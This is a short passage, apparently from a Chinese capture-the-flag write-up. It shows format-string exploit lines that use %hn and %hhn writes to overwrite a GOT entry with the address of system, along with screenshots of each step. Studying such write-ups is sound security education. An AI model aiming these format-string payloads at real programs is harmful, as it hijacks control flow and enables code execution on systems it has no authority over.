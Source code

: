 [![](assets/1701678450-3e1fd3883461130dbf03a05f3b5b74ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211109-c300d764-8eb8-1.png)  
然后就是先修改 2 个字节，再错位改一下 got 表地址

```plain
sla('start','%'+str(system1)+'c%18$hn')
sla('start','%'+str(0x4022)+'c%43$hn')
```

[![](assets/1701678450-09f2a3c98babfb5f70da0ead6839888f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211122-cb0da2f2-8eb8-1.png)

[![](assets/1701678450-1d21a434d08d56a1eb20fd15034813a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211126-cd950a6a-8eb8-1.png)  
然后再改一字节，就成功改完了

```plain
sla('start','%'+str(system2)+'c%18$hhn')
```
